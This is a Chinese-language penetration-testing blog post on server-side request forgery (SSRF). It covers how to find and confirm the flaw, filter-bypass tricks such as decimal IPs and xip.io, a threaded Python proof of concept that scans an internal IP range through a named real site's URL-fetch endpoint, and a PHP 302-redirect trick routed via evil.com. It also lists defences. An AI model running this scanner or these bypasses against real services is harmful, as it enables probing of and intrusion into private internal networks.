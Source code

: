 +++
date = "2016-06-30T15:30:54+08:00"
description = ""
draft = false
tags = ["ssrf"]
title = "SSRF"
topics = ["Pentest"]

+++

### 0x00 什么是SSRF
> &nbsp;&nbsp;&nbsp;&nbsp;SSRF(Server-Side Request Forgery:服务请求伪造)是一种由攻击者构造，从而让服务端发起请求的一种安全漏洞，<font color="FF0000">它将一个可以发起网络请求的服务当作跳板来攻击其他服务</font>，SSRF的攻击目标一般是<font color="FF0000">内网</font>。  
&nbsp;&nbsp;&nbsp;&nbsp;当服务端提供了从其他服务器获取数据的功能(如:从指定URL地址获取网页文本内容、加载指定地址的图片、下载等)，但是没有对目标地址做过滤与限制时就会出现SSRF。

### 0x01 SSRF的危害
> 可以扫描内部网络  
可以构造数据攻击内部主机

### 0x02 漏洞挖掘
> 其实只要能对外发起网络请求就有可能存在SSRF漏洞。
```
1. 从WEB功能上寻找
    通过URL分享内容
    文件处理、编码处理、转码等服务
    在线翻译
    通过URL地址加载与下载图片
    图片、文章的收藏
    设置邮件接收服务器
2. 从URL关键字寻找
    share、wap、url、link、src、source、target、u、3g、
    display、sourceURl、imageURL、domain...
```

### 0x03 漏洞验证
> ```
http://www.aa.com/ss.php?image=http://www.baidu.com/img/bd_logo1.png
1. 右键在新窗口打开图片，图片地址为http://www.baidu.com/img/bd_logo1.png，
    说明不存在SSRF漏洞。  
2. firebug看网络连接信息，若没有http://www.baidu.com/img/bd_logo1.png
    这个图片请求，则证明图片是aa.com服务端发起的请求，则可能存在SSRF漏洞。
```

### 0x04 绕过过滤
> 有时漏洞利用时会遇到IP限制，可用如下方法绕过：
```
* 使用@：http://A.com@10.10.10.10 = 10.10.10.10
* IP地址转换成十进制、八进制：127.0.0.1 = 2130706433
* 使用短地址：http://10.10.116.11 = http://t.cn/RwbLKDx
* 端口绕过：ip后面加一个端口
* xip.io：10.0.0.1.xip.io = 10.0.0.1
        www.10.0.0.1.xip.io = 10.0.0.1
        mysite.10.0.0.1.xip.io = 10.0.0.1
        foo.bar.10.0.0.1.xip.io = 10.0.0.1
* 通过js跳转
```

### 0x05 通用的SSRF实例
* weblogin配置不当，天生ssrf漏洞
* discuz x2.5/x3.0/x3.1/x3.2 ssrf漏洞
* CVE-2016-1897/CVE-2016-1898 - FFMpeg
* CVE-2016-3718 - ImageMagick

### 0x06 附实例POC
> ```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import re
import requests
from IPy import IP
import Queue
import threading


def get_url_queue():
    url = "http://www.sogou.com/reventondc/external?key=&objid=&type=2&charset=utf-8&url=http://"
    urllist = Queue.Queue()
    ip_list = IP('10.146.20.0/24')
    port_list = ['80','8000','8080']
    for ip_add in ip_list:
        ip_add = str(ip_add)
        for port in port_list:
            url_t = url + ip_add + ':' + port
            urllist.put(url_t)
    return urllist

def get_title(urllist):
    while not urllist.empty():
        url = urllist.get()
        html = requests.get(url).text
        patt = r'<title>(.*?)</title>'
        m = re.search(patt,html)
        if m:
            title = m.group(1)
            print "%s\t%s" % (url,title)


urllist = get_url_queue()
print "start get title..."
for x in xrange(1,30):
    t = threading.Thread(target=get_title,args=(urllist,))
    t.start()
```

### 0x07 防御
* 限制协议为http或https
* 禁止30x转跳
* 过滤参数(只要出现内网ip或域名就直接干掉)

<br>
#### ===== 20170609更新 =====
宝哥说的姿势：

* 302跳转

> ```php
//在自己服务器上建立文件，利用302跳转到对方内网地址。
//http://target.com/httpProxyAccess.htm?go=http://evil.com/a.php?url=http://10.11.213.57
//a.php内容如下：
<?php
    $url = $_GET['url'];
    header("Location:".$url);
?>
```

* iframe

> ```php
//在自己服务器建立文件，利用iframe标签请求对方内网地址。
//参考http://www.secpulse.com/archives/50034.html
<iframe src="对方内网地址">
```
